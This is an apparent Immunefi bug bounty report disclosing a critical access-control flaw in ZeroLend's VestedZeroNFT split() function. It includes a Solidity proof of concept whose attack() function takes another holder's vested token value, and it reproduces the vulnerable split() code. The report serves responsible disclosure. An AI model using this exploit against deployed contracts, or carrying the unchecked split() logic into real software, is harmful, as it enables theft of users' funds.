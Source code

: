 
# VestedZeroNFT tokens can be directly stolen through the split() function

Submitted on Mar 5th 2024 at 03:07:39 UTC by @Trust for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29031

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Description
## Brief/Intro
The split() function of VestedZeroNFT allows a user to split a tokenId to two tokens, using the desired ratio. 
VestedZeroNFT is a vesting solution, allowing anyone to mint a vesting token who will eventually emit the entire locked funds.


## Vulnerability Details
The `split()` function lacks access-control check - essentially that the msg.sender is the owner of `tokenID`. The `msg.sender` is the one receiving the newly minted token with an arbitrary ratio.
`_mint(msg.sender, ++lastTokenId);`
This means anyone can pass an existing tokenID and `fraction=1` to still 99.99% of the value of a token.

## Impact Details
Anyone can steal the underlying value of vestedZeroNFTs


## Proof of concept
Since the project's test suite does not run, as indicated in chat, I've prepped a POC as a standalone contract which directly copies the `split()` function from VestedZeroNFT.

Simply deploy the SplitStealPOC contract and run `attack()` which proves anyone can steal another person's holdings.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC165, ERC721Upgradeable, ERC721EnumerableUpgradeable} from "@openzeppelin/contracts-upgradeable/token/ERC721/extensions/ERC721EnumerableUpgradeable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {ERC20} from  "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IVestedZeroNFT{
    function split( uint256 tokenId, uint256 fraction) external;
    function mint( address _who, uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) external returns (uint256);
    function init(address _zero, address _stakingBonus) external;
}

enum VestCategory {
    PRIVATE_SALE,
    EARLY_ZERO,
    NORMAL,
    AIRDROP
}

struct LockDetails {
    uint256 cliffDuration;
    uint256 unlockDate;
    uint256 pendingClaimed;
    uint256 pending;
    uint256 upfrontClaimed;
    uint256 upfront;
    uint256 linearDuration;
    uint256 createdAt;
    bool hasPenalty;
    VestCategory category;
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract VestedZeroNFT is ERC721EnumerableUpgradeable {
    function init(address _zero, address _stakingBonus) external initializer {
    __ERC721_init("ZeroLend Vest", "ZEROv");
    denominator = 10000;
    zero = IERC20(_zero);
    }

    mapping(uint256 => bool) public frozen;
    uint256 public denominator;
    mapping(uint256 => LockDetails) public tokenIdToLockDetails;
    uint256 public lastTokenId;
    IERC20 public zero;

    function split(
        uint256 tokenId,
        uint256 fraction
    ) external {
        _requireOwned(tokenId);
        require(fraction > 0 && fraction < denominator, "!fraction");
        require(!frozen[tokenId], "frozen");
        LockDetails memory lock = tokenIdToLockDetails[tokenId];
        uint256 splitPendingAmount = (lock.pending * fraction) / denominator;
        uint256 splitUpfrontAmount = (lock.upfront * fraction) / denominator;
        uint256 splitUnlockedPendingAmount = (lock.pendingClaimed * fraction) /
            denominator;
        uint256 splitUnlockedUpfrontAmount = (lock.upfrontClaimed * fraction) /
            denominator;
        tokenIdToLockDetails[tokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: lock.createdAt,
            linearDuration: lock.linearDuration,
            pending: splitPendingAmount,
            pendingClaimed: splitUnlockedPendingAmount,
            upfrontClaimed: splitUnlockedUpfrontAmount,
            upfront: splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
        _mint(msg.sender, ++lastTokenId);
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: block.timestamp,
            linearDuration: lock.linearDuration,
            pending: lock.pending - splitPendingAmount,
            pendingClaimed: lock.pendingClaimed - splitUnlockedPendingAmount,
            upfrontClaimed: lock.upfrontClaimed - splitUnlockedUpfrontAmount,
            upfront: lock.upfront - splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
    }

    function getTokenIdToLockDetails(uint256 a) external returns (LockDetails memory)  {
        return tokenIdToLockDetails[a];
    }

    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");
        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);
        return lastTokenId;
    }

}


contract SplitStealPOC {

    IERC20 zero;
    VestedZeroNFT nft;

    constructor() {
        zero = new Zero();
        nft = new VestedZeroNFT();
        nft.init(address(zero), address(0));        
    }

    function attack() external {
        zero.approve(address(nft), type(uint256).max);
        nft.mint(address(0x1111), 1000, 1000, 100, 100, block.timestamp, false, VestCategory.EARLY_ZERO); // uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) 

        require(nft.ownerOf(1) == address(0x1111));

        nft.split(1, 10);

        require(nft.ownerOf(2) == address(this));
        LockDetails memory l1 = nft.getTokenIdToLockDetails(1);
        LockDetails memory l2 = nft.getTokenIdToLockDetails(2);
        require(l1.pending == 1);
        require(l2.pending == 999);
    }
}

```
